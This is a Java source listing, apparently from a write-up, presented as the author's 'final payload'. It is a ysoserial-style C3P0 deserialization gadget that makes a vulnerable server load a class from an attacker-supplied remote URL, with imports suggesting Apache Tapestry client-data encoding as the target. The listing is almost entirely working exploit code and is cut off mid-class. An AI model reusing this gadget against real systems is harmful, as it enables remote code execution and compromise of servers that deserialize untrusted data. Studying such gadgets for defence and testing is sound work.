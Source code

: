 Here is my final payload.

```java
import com.mchange.v2.c3p0.PoolBackedDataSource;
import org.apache.tapestry5.internal.services.ClientDataEncoderImpl;
import org.apache.tapestry5.services.ClientDataEncoder;
import org.apache.tapestry5.services.ClientDataSink;

import java.io.*;

import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import ysoserial.payloads.util.Reflections;

public class Main {
    static public Object getExploit(String command) throws Exception {
        int sep = command.lastIndexOf(':');
        if ( sep < 0 ) {
            throw new IllegalArgumentException("Command format is: <base_url>:<classname>");
        }

        String url = command.substring(0, sep);
        String className = command.substring(sep + 1);

        PoolBackedDataSource b = Reflections.createWithoutConstructor(PoolBackedDataSource.class);
        Reflections.getField(PoolBackedDataSourceBase.class, "connectionPoolDataSource").set(b, new PoolSource(className, url));
        return b;
    }


    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {

        private String className;
        private String url;

        public PoolSource ( String className, String url ) {
            this.className = className;
            this.url = url;
        }

        public Reference getReference () throws NamingException {
            return new Reference("exploit", this.className, this.url);
        }

        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

```